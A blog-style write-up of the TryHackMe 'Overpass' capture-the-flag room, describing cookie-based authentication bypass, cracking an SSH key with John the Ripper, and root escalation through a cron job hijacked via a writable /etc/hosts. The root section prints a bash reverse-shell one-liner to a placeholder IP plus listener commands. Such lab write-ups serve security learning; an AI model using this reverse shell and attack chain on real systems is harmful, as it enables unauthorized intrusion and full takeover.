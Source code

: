 ```yaml
---
layout: post
title: TryHackMe writeup - Overpass
author: Lorentz Vedeler
date: 2020-07-21
tags:   
    - TryHackMe
---
```


Here's how I rooted the room overpass on [tryhackme.com][1]

## user.txt

### Red herring #1 - Looking for sensitive data exposure
Just browsing to the IP reveals a product page for a password manager. We can find the source for the password manager which reveals that it is not secure at all - it's using a simple caeasar cipher with 47 rotations. The passwords are saved to a .overpass file in the users home directory. I actually spent a lot of time looking for one of these files exposed on the server but could not find any.

### Red herring #2 - Looking for injection
After running gobuster for a short while it revealed that an additional login page for admins could be reached. Reading the hint on tryhackme I started looking for injections. I tried many different payloads for sql, no-sql, command injection etc in the username/password fields, but could not find any that would work.

### Red herring #3 - Looking for XXE and insecure deserialization
Checking out the javascript code for login.js we can see that it's using ajax to post the credentials to an api endpoint. The comment that "body data type must match "Content-Type" header" made me think this could be an endpoint that would accept different content types. So I tried to modify the request and send credentials a few different xml and json formats, but all returned 400 Bad request.

```javascript
async function postData(url = '', data = {}) {
    // Default options are marked with *
    const response = await fetch(url, {
        method: 'POST', // *GET, POST, PUT, DELETE, etc.
        cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
        credentials: 'same-origin', // include, *same-origin, omit
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        redirect: 'follow', // manual, *follow, error
        referrerPolicy: 'no-referrer', // no-referrer, *client
        body: encodeFormData(data) // body data type must match "Content-Type" header
    });
    return response; // We don't always want JSON back
}
const encodeFormData = (data) => {
    return Object.keys(data)
        .map(key => encodeURIComponent(key) + '=' + encodeURIComponent(data[key]))
        .join('&');
}
function onLoad() {
    document.querySelector("#loginForm").addEventListener("submit", function (event) {
        //on pressing enter
        event.preventDefault()
        login()
    });
}
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
``` 

### Finally - Broken authentication

We can see from the javascript above that a successful login sets the cookie `SessionToken` with the result from the request. I had incorrectly assumed that it would be a JWT token, and had been looking for ways to register a new user to see if I could find some weakness in the tokens. A desperate try was to just set this token to the username I wanted to login with. First I tried setting it to 'admin' and refresh the page. No luck. Then I tried with 'administrator'. Refresh... And behold: The administrator page. It contains a private ssh-key meant for the user james. The key is encrypted, but the text on the page suggests it should be easily crackable, and running john the ripper on it with the rockyou password list cracks it almost instantly even on my old laptop.

1. Save the key to id_rsa in your working directory.
2. `/usr/share/john/ssh2john.py id_rsa > id_rsa_hash`
3. `john --wordlist=/opt/wordlists/rockyou.txt --format=SSH id_rsa_hash`
4. `ssh -i id_rsa james@<IP>` 

## root.txt
...And we're in. I uploaded linpeas to the server and ran it from james home directory. It shows us a few interesting things:

1. A cron job running as root that downloads a buildscript from overpass.thm and pipes it to bash
2. We have write access to /etc/hosts

The plan is simple: we will serve our own malicious buildscript containing a reverse shell payload, spin up our listener, add an entry for overpass.thm domain with our own IP to the /etc/hosts file and wait untill the cron job executes.

``` bash
mkdir -p downloads/src
``` 
save the script below to `downloads/src/buildscript.sh`
``` bash
bash -i >& /dev/tcp/<your ip>/4444 0>&1
```

Then run the following on your own machine:
``` bash
sudo python3 -m http.server 80
# In another terminal: 
nc -lnvp 4444
```

wait for a few moments... and boom! we are root.

[1]: https://tryhackme.com